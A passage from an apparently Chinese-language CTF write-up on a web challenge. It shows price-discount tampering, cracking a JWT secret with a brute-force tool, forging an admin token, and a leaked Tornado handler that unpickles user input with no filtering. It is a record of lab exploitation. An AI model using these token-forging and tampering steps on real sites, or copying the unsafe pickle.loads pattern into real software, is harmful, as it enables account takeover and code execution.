Cookie:
_xsrf=2|227cff14|b115de16695b26b62660afd98a74425e|1581594433;
commodity_id="2|1:0|10:1581601241|12:commodity_id|8:MTYyNA==|98a33c4c4b021b2fabeb8faee18351779c8e489e11bf7a944f88bb6a364a6219";
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo

param:
_xsrf=2|60ba95ac|f3d3b4ae2b9d4c0e64a6c561c8b228e6|1581594433
&
id=1624
```
可以猜测`1581594433`是用户ID，点击结算，抓包：
```
Cookie:
_xsrf=2|227cff14|b115de16695b26b62660afd98a74425e|1581594433;
commodity_id="2|1:0|10:1581602242|12:commodity_id|8:MTYyNA==|f83ff9b924eaaac1ea2a0dc46b43962dbd36ae8ed96605c96fb44ca83df37378";
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo

param:
_xsrf=2|0eaae91b|9dc3c819458d30b90ab6b9d6a6a25451|1581594433&id=1624&price=1145141919.0&discount=0.8
```
尝试修改折扣为0.000000001，触发重定向，发现有个jwt，[查资料](https://jwt.io/)后发现是一种认证，还有一个key用于加密。重定向到`/b1g_m4mber`：
```
该页面，只允许admin访问
```
[爆破工具](https://github.com/brendan-rius/c-jwt-cracker)：
```
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo
Secret is "1Kun"
```
使用刚刚的工具，得到admin的jwt如下：
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```
成功进入页面，拿到源码：
```
<!-- 潜伏敌后已久,只能帮到这了 -->
/static/asd1f654e683wq/www.zip
删库跑路前我留了好东西在这里
<!-- 对抗*站黑科技，目前为测试阶段，只对管理员开放 -->
```
开始读代码qaq，太tm的多了啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊。发现了发现了！！：
```
(r'/b1g_m4mber', AdminHandler)


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)

```
这里面有个pickle，和php的序列化那是一个东西，这里完全没有任何的过滤，另外，在models.py中还有一个`desc = "hint:I'm flag man"`并写入到了数据库。